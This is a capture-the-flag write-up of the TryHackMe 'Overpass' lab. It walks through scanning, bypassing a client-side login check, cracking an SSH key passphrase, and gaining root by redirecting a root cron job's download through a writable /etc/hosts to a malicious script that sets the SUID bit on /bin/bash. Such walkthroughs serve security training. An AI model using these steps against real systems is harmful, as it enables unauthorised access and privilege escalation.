









Recently, I decided to give the Overpass box a try on TryHackMe since it was on my bucketlist for a while. This is my writeup for the particular box.
I started my testing with a simple nmap scan using:
`nmap -sC -sV -oN nmapscan.txt 10.10.38.213 -v`
Here is the output of the nmap scan:
```
# Nmap 7.91 scan initiated Fri Apr 16 10:45:44 2021 as: nmap -sC -sV -oN /root/CTF/TryHackMe/Overpass/nmapscan.txt -vvv 10.10.38.213
Nmap scan report for 10.10.38.213
Host is up, received reset ttl 60 (0.18s latency).
Scanned at 2021-04-16 10:45:45 EDT for 21s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 60 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 16 10:46:06 2021 -- 1 IP address (1 host up) scanned in 21.95 seconds
```
The box looked relatively simple with port 22 open for ssh and port 80 open for HTTP traffic. I decided to enumerate the website running on port 80. I left gobuster running on the background busting through all the sub-directories while I manually looked around the website. For gobsuter I used:
`gobuster dir -u http://10.10.38.213/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.html,.php,.js`
The output for the above command was:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.38.213/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,js
[+] Timeout:                 10s
===============================================================
2021/04/16 10:45:21 Starting gobuster in directory enumeration mode
===============================================================

/downloads            (Status: 301) [Size: 0] [--> downloads/]

/img                  (Status: 301) [Size: 0] [--> img/]      

/index.html           (Status: 301) [Size: 0] [--> ./]        

/login.js             (Status: 200) [Size: 1779]              

/main.js              (Status: 200) [Size: 28]                

/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  

/admin                (Status: 301) [Size: 42] [--> /admin/]  

/admin.html           (Status: 200) [Size: 1525]              

/css                  (Status: 301) [Size: 0] [--> css/]      

/404.html             (Status: 200) [Size: 782]               

/cookie.js            (Status: 200) [Size: 1502]              

[!] Keyboard interrupt detected, terminating.
===============================================================
2021/04/16 10:46:14 Finished
===============================================================
```
What particularly seemed interesting from the gobsuter results were `login.js` and the admin login panel at `/admin`. Regardless, I went on to the website and started looking around manually. It looked something like:

 

The about page had some interesting names but nothing more than that: 



I moved on to the downloads section which had some interesting stuff going on with it:



The source code for the binary seemed awfully interesting but on manual review, nothing seemed off about it except the fact that it was using ROT47 in the name of military grade encryption LOL.
Since, nothing seemed off uptil now, I went on to the more interesting parts namely the `login.js` file. On a closer inspection I found a vulnerable function.


Look at:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
We can bypass the if check easily by using an HTTP proxy like `BurpSuite`. So, naturally I opened up BurpSuite and intercepted the request for the login on `/admin`, then I had to intercept the response by setting capture response to request to true.


Now the fun begins, simply removing the `Incorrect Credentials` would bypass the check in the login function above. And that is exactly what I did.


I refreshed the page after this and I had successfully bypassed the login. The new page presented me with an RSA private key.



I copied the key and saved it in a file. I ran `chmod 600` on the file to give it the proper permissions. Now I had to crack the passphrase for the key. I achieved this buy using `ssh2john` and `johntheripper`. First I ran `ssh2john RSA > johnrsa` and then I ran `john --wordlist=/usr/share/wordlists/rockyou.txt johnrsa`. The cracked passphrase turned out to be `james13`, and with this credential I was successfully able to connect to the box by running `ssh -i RSA james@10.10.38.213`. 


SSH gave me the initial user shell but the real fun began with privilege escalation. Manually looking around seemed redundant at first glance, so I grabbed a copy of `linpeas.sh` and served it to the box using a `python http.server`.

 


Upon running `linpeas.sh` a peculiar cron job came under my attention. 



This job was running every mintue with root privileges, it was basically downloading a file present in the given path `overpass.thm/downloads/src/buildscript.sh` and piping it to bash. The cherry on top was the file used to resolve a particular ip to `overpass.thm` namely the `/etc/hosts` file was writeable by the user according to linpeas.sh.



So I opened up the `hosts` file and made it so that `overpass.thm` resolved to my `tun0` ip (openvpn ip).



Now I went into the directory where I had the python http server running and recreated the path in the job namely `/downloads/src`. In there I made my own malicious `buildscript.sh` with the following code:
```
#!/bin/bash
chmod +s /bin/bash
```
The idea here was to set the SUID bit for /bin/bash as the `root` user so anybody with an user account could run `/bin/bash` with elevated root privileges. After a one minute wait, the job ran as expected and my malicious script was run by the `root` user. Finally, a simple `/bin/bash -p` gave me access to a root shell and I had officially rooted the box.


